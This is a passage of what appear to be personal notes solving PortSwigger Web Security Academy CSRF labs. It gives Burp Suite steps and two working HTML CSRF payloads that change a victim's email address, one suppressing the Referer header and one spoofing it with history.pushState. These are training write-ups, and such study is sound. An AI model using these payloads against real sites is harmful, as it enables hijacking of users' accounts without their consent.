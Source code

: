 - Test the attack on yourself again while monitoring the proxy history in Burp.
- When prompted, click the page. This triggers the OAuth flow and issues you a new session cookie. 
- After 5 seconds, notice that the CSRF attack is sent and the POST /my-account/change-email request includes your new session cookie.
- Go to your account page and confirm that your email address has changed.
- Change the email address in your exploit so that it doesn't match your own.
- Deliver the exploit to the victim to solve the lab.

# Lab: CSRF where Referer validation depends on header being present
- Solving the lab: make a request to the change email normally
- Go to burpsuite history and send the request to repeater
- In repeater, change the value of the referer, You will notice error message
- Remove the header to see if the  request will go through
- Notice That it went through, Now construct a csrf like this
```
<html>
  <head>
    <title>CSRF PoC</title>
    <meta name="referer" content="never">
  </head>
  <body>
    <form action="https://0ad300da037a34bf80e70395003f0014.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="bee@test.com">
      <input type="submit" value="Click me">
    </form>

    <script>
      document.forms[0].submit();
    </script>
    
  </body>
</html>
```
- Launch the payload against yourself to see if it is going to be successful 
- Notice that Your email has been changed 
- Now, deliver the payload to victim with another email
- Lab Solved successfully

# Lab: CSRF with broken Referer validation
- Send the change email request to burp repeater 
- Remove the value of the referer and notice the request was unsuccessful
- Remove the referer totally and notice the request is not successful
- Modify the value of the referer but keep the website in the referer, notice the request was successful
- Craft a csrf that looks like this
```
<html>
  <head>
    <title>CSRF PoC</title>
    
  </head>
  <body>
    <script>
        history.pushState("", "", "/?0a1800de043fa34d8012215500fc00e0.web-security-academy.net")
    </script>
    <form action="https://0a1800de043fa34d8012215500fc00e0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="bees@test.com">
    </form>

```